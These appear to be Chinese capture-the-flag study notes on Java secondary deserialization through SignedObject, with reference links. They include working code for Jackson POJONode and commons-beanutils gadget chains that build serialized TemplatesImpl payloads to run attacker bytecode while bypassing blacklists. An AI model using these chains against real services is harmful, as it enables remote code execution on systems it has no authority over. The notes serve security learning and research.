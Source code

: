 # 文章
[二次反序列化初探](http://www.bmth666.cn/2022/09/20/java%E4%BA%8C%E6%AC%A1%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%9D%E6%8E%A2/)<br />[java二次反序列化初探 _ Bmth's blog.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1693792864302-843794c6-7377-4f28-a6e6-729099d986b7.pdf?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2023%2Fpdf%2F25358086%2F1693792864302-843794c6-7377-4f28-a6e6-729099d986b7.pdf%22%2C%22name%22%3A%22java%E4%BA%8C%E6%AC%A1%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%9D%E6%8E%A2%20_%20Bmth's%20blog.pdf%22%2C%22size%22%3A34130450%2C%22ext%22%3A%22pdf%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22ub3736850-972d-48b6-a3a2-b14d7b5a147%22%2C%22taskType%22%3A%22upload%22%2C%22type%22%3A%22application%2Fpdf%22%2C%22__spacing%22%3A%22both%22%2C%22mode%22%3A%22title%22%2C%22id%22%3A%22u135f73a1%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)
### 例题
[[极客巅峰2023]babyurl](https://xilitter.github.io/2023/07/24/2023%E6%9E%81%E5%AE%A2%E5%B7%85%E5%B3%B0babyurl-%E5%88%9D%E8%AF%86%E4%BA%8C%E6%AC%A1%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/index.html)<br />[2023极客巅峰babyurl-初识二次反序列化 _ XiLitter.html](https://www.yuque.com/attachments/yuque/0/2023/html/25358086/1693559601075-60998a65-46bf-4892-84b6-a24ccdebc158.html)<br />[2023巅峰极客 BabyURL](https://www.xiinnn.com/posts/2023dfjk-babyurl/)<br />[2023巅峰极客 BabyURL - Lxxx.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1693577253127-e8b83e30-c268-49b8-bc3e-212727a4f66a.pdf)<br />[巅峰极客2023-Web](https://ke1nys.github.io/posts/7d1902a5)<br />[巅峰极客2023-Web _ ke1nys`Blog.html](https://www.yuque.com/attachments/yuque/0/2023/html/25358086/1693577333090-bc9d8c91-795a-45c7-96cd-11cb228b1446.html)<br />[从bypassit1了解POJONode#toString调用getter方法原理 - 先知社区](https://xz.aliyun.com/t/12509)<br />[从bypassit1了解POJONode#toString调用getter方法原理 - 先知社区.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1693643084018-8ca6e1d9-5343-41cf-8bff-4a44a3b1ea3d.pdf)
### 利用类
`java.security.SignedObject#getObject`<br />该类的`getObject`方法对`content`进行了反序列化，相当于进行了二次反序列，从而绕过一些黑名单
```java
    public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
```
```java
KeyPairGenerator keyPairGenerator;
keyPairGenerator = KeyPairGenerator.getInstance("DSA");
keyPairGenerator.initialize(1024);
KeyPair keyPair = keyPairGenerator.genKeyPair();
PrivateKey privateKey = keyPair.getPrivate();
Signature signingEngine = Signature.getInstance("DSA");
SignedObject signedObject = new SignedObject(恶意类, privateKey, signingEngine);
```
### 利用方法
#### Jackson触发getter
```java
BadAttributeValueExpException.readObject()
	POJONode.toString()
    	InternalNodeMapper.nodeToString()
        	JsonMapper.writter().writeValueAsString()
            	ObjectWriter._writeValueAndClose()
            	......
                	XXX.getXXX()
```
使用示例
```java
// 先要将BaseJsonNode中的writeReplace删除，不然序列化会出错
try {
    ClassPool pool = ClassPool.getDefault();
    CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
    CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");
    jsonNode.removeMethod(writeReplace);
    ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
    jsonNode.toClass(classLoader, null);
} catch (Exception e) {
}

// 以TemplatesImpl举例
byte[] code = getTemplates();//用javassist获取
byte[][] codes = {code};

TemplatesImpl templates = new TemplatesImpl();
setFieldValue(templates, "_name", "useless");
setFieldValue(templates, "_tfactory",  new TransformerFactoryImpl());
setFieldValue(templates, "_bytecodes", codes);

POJONode node = new POJONode(templates);
BadAttributeValueExpException val = new BadAttributeValueExpException(null);

setFieldValue(val, "val", node);

ser(val);
```
#### commons.beanutils触发getter
```java
PriorityQueue.readObject()
......
	BeanComparator.compare()
		PropertyUtils.getProperty()
		......
    		XXX.getXXX()
```
使用举例
```java
// commons-beanutils1的利用链
TemplatesImpl templatesImpl = new TemplatesImpl();
byte[] code = Files.readAllBytes(Paths.get("F:\\CTF\\JAVA\\Classes\\Exp.class"));
byte[][] codes = {code};
setFieldValue(templatesImpl, "_name", "Ki1ro");
setFieldValue(templatesImpl, "_bytecodes", codes);
setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

final BeanComparator comparator = new BeanComparator();
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

queue.add(1);
queue.add(1);

setFieldValue(comparator, "property", "outputProperties");
setFieldValue(comparator, "comparator", null);
setFieldValue(queue, "queue", new Object[]{templatesImpl, templatesImpl});

serialize(queue, "ser.bin");
```
### 例题
[[巅峰极客2023]BabyURL](https://www.xiinnn.com/posts/2023dfjk-babyurl/)
